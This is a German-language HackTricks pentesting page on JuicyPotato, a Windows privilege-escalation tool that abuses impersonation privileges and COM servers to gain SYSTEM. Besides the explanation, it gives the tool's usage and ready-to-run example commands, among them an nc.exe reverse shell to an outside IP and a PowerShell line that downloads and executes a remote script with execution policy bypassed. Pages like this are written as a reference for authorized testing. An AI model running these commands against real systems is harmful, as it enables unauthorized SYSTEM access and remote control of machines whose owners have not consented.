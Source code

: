 # JuicyPotato

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

{% hint style="warning" %}
**JuicyPotato funktioniert nicht** auf Windows Server 2019 und Windows 10 Build 1809 und höher. Allerdings können [**PrintSpoofer**](https://github.com/itm4n/PrintSpoofer)**,** [**RoguePotato**](https://github.com/antonioCoco/RoguePotato)**,** [**SharpEfsPotato**](https://github.com/bugch3ck/SharpEfsPotato) verwendet werden, um **die gleichen Berechtigungen zu nutzen und Zugriff auf `NT AUTHORITY\SYSTEM`** zu erhalten. _**Überprüfe:**_
{% endhint %}

{% content-ref url="roguepotato-and-printspoofer.md" %}
[roguepotato-and-printspoofer.md](roguepotato-and-printspoofer.md)
{% endcontent-ref %}

## Juicy Potato (Ausnutzung der goldenen Berechtigungen) <a href="#juicy-potato-abusing-the-golden-privileges" id="juicy-potato-abusing-the-golden-privileges"></a>

_Eine gesüßte Version von_ [_RottenPotatoNG_](https://github.com/breenmachine/RottenPotatoNG)_, mit ein wenig Saft, d.h. **ein weiteres Tool zur lokalen Privilegieneskalation, von Windows-Dienstkonten zu NT AUTHORITY\SYSTEM**_

#### Du kannst juicypotato von [https://ci.appveyor.com/project/ohpe/juicy-potato/build/artifacts](https://ci.appveyor.com/project/ohpe/juicy-potato/build/artifacts) herunterladen

### Zusammenfassung <a href="#summary" id="summary"></a>

[**Aus dem juicy-potato Readme**](https://github.com/ohpe/juicy-potato/blob/master/README.md)**:**

[RottenPotatoNG](https://github.com/breenmachine/RottenPotatoNG) und seine [Varianten](https://github.com/decoder-it/lonelypotato) nutzen die Privilegieneskalationskette basierend auf [`BITS`](https://msdn.microsoft.com/en-us/library/windows/desktop/bb968799\(v=vs.85\).aspx) [Dienst](https://github.com/breenmachine/RottenPotatoNG/blob/4eefb0dd89decb9763f2bf52c7a067440a9ec1f0/RottenPotatoEXE/MSFRottenPotato/MSFRottenPotato.cpp#L126), der den MiTM-Listener auf `127.0.0.1:6666` hat und wenn du `SeImpersonate` oder `SeAssignPrimaryToken` Berechtigungen hast. Während einer Überprüfung des Windows-Builds fanden wir eine Konfiguration, bei der `BITS` absichtlich deaktiviert war und der Port `6666` belegt war.

Wir beschlossen, [RottenPotatoNG](https://github.com/breenmachine/RottenPotatoNG) zu waffen: **Sag Hallo zu Juicy Potato**.

> Für die Theorie siehe [Rotten Potato - Privilegieneskalation von Dienstkonten zu SYSTEM](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/) und folge der Kette von Links und Referenzen.

Wir entdeckten, dass es neben `BITS` mehrere COM-Server gibt, die wir ausnutzen können. Sie müssen nur:

1. vom aktuellen Benutzer instanziierbar sein, normalerweise ein „Dienstbenutzer“, der über Impersonationsberechtigungen verfügt
2. das `IMarshal`-Interface implementieren
3. als ein erhöhter Benutzer (SYSTEM, Administrator, …) ausgeführt werden

Nach einigen Tests erhielten und testeten wir eine umfangreiche Liste von [interessanten CLSID’s](http://ohpe.it/juicy-potato/CLSID/) auf mehreren Windows-Versionen.

### Saftige Details <a href="#juicy-details" id="juicy-details"></a>

JuicyPotato ermöglicht dir:

* **Ziel-CLSID** _wähle jede CLSID, die du möchtest._ [_Hier_](http://ohpe.it/juicy-potato/CLSID/) _findest du die Liste, die nach OS organisiert ist._
* **COM-Listening-Port** _definiere den COM-Listening-Port, den du bevorzugst (anstatt des fest codierten 6666)_
* **COM-Listening-IP-Adresse** _binde den Server an jede IP_
* **Prozess-Erstellungsmodus** _je nach den Berechtigungen des impersonierten Benutzers kannst du wählen zwischen:_
* `CreateProcessWithToken` (benötigt `SeImpersonate`)
* `CreateProcessAsUser` (benötigt `SeAssignPrimaryToken`)
* `beide`
* **Prozess zum Starten** _starte eine ausführbare Datei oder ein Skript, wenn die Ausnutzung erfolgreich ist_
* **Prozessargument** _passe die Argumente des gestarteten Prozesses an_
* **RPC-Serveradresse** _für einen stealthy Ansatz kannst du dich bei einem externen RPC-Server authentifizieren_
* **RPC-Serverport** _nützlich, wenn du dich bei einem externen Server authentifizieren möchtest und die Firewall den Port `135` blockiert…_
* **TEST-Modus** _hauptsächlich für Testzwecke, d.h. zum Testen von CLSIDs. Es erstellt das DCOM und druckt den Benutzer des Tokens. Siehe_ [_hier für Tests_](http://ohpe.it/juicy-potato/Test/)

### Verwendung <a href="#usage" id="usage"></a>
```
T:\>JuicyPotato.exe
JuicyPotato v0.1

Mandatory args:
-t createprocess call: <t> CreateProcessWithTokenW, <u> CreateProcessAsUser, <*> try both
-p <program>: program to launch
-l <port>: COM server listen port


Optional args:
-m <ip>: COM server listen address (default 127.0.0.1)
-a <argument>: command line argument to pass to program (default NULL)
-k <ip>: RPC server ip address (default 127.0.0.1)
-n <port>: RPC server listen port (default 135)
```
### Final thoughts <a href="#final-thoughts" id="final-thoughts"></a>

[**Aus juicy-potato Readme**](https://github.com/ohpe/juicy-potato/blob/master/README.md#final-thoughts)**:**

Wenn der Benutzer die Berechtigungen `SeImpersonate` oder `SeAssignPrimaryToken` hat, dann sind Sie **SYSTEM**.

Es ist nahezu unmöglich, den Missbrauch all dieser COM-Server zu verhindern. Sie könnten darüber nachdenken, die Berechtigungen dieser Objekte über `DCOMCNFG` zu ändern, aber viel Glück, das wird herausfordernd sein.

Die eigentliche Lösung besteht darin, sensible Konten und Anwendungen zu schützen, die unter den `* SERVICE`-Konten ausgeführt werden. Das Stoppen von `DCOM` würde dieses Exploit sicherlich verhindern, könnte jedoch erhebliche Auswirkungen auf das zugrunde liegende Betriebssystem haben.

Von: [http://ohpe.it/juicy-potato/](http://ohpe.it/juicy-potato/)

## Beispiele

Hinweis: Besuchen Sie [diese Seite](https://ohpe.it/juicy-potato/CLSID/), um eine Liste von CLSIDs auszuprobieren.

### Erhalten Sie eine nc.exe Reverse-Shell
```
c:\Users\Public>JuicyPotato -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c c:\users\public\desktop\nc.exe -e cmd.exe 10.10.10.12 443" -t *

Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

c:\Users\Public>
```
### Powershell rev
```
.\jp.exe -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c powershell -ep bypass iex (New-Object Net.WebClient).DownloadString('http://10.10.14.3:8080/ipst.ps1')" -t *
```
### Starte ein neues CMD (wenn du RDP-Zugriff hast)

![](<../../.gitbook/assets/image (300).png>)

## CLSID-Probleme

Oft funktioniert die standardmäßige CLSID, die JuicyPotato verwendet, **nicht** und der Exploit schlägt fehl. In der Regel sind mehrere Versuche erforderlich, um eine **funktionierende CLSID** zu finden. Um eine Liste von CLSIDs für ein bestimmtes Betriebssystem zu erhalten, solltest du diese Seite besuchen:

{% embed url="https://ohpe.it/juicy-potato/CLSID/" %}

### **Überprüfen von CLSIDs**

Zuerst benötigst du einige ausführbare Dateien neben juicypotato.exe.

Lade [Join-Object.ps1](https://github.com/ohpe/juicy-potato/blob/master/CLSID/utils/Join-Object.ps1) herunter und lade es in deine PS-Sitzung, und lade [GetCLSID.ps1](https://github.com/ohpe/juicy-potato/blob/master/CLSID/GetCLSID.ps1) herunter und führe es aus. Dieses Skript erstellt eine Liste möglicher CLSIDs, die getestet werden können.

Lade dann [test\_clsid.bat ](https://github.com/ohpe/juicy-potato/blob/master/Test/test\_clsid.bat) herunter (ändere den Pfad zur CLSID-Liste und zur juicypotato-executablen Datei) und führe es aus. Es wird versuchen, jede CLSID zu testen, und **wenn sich die Portnummer ändert, bedeutet das, dass die CLSID funktioniert hat**.

**Überprüfe** die funktionierenden CLSIDs **mit dem Parameter -c**

## Referenzen

* [https://github.com/ohpe/juicy-potato/blob/master/README.md](https://github.com/ohpe/juicy-potato/blob/master/README.md)


{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

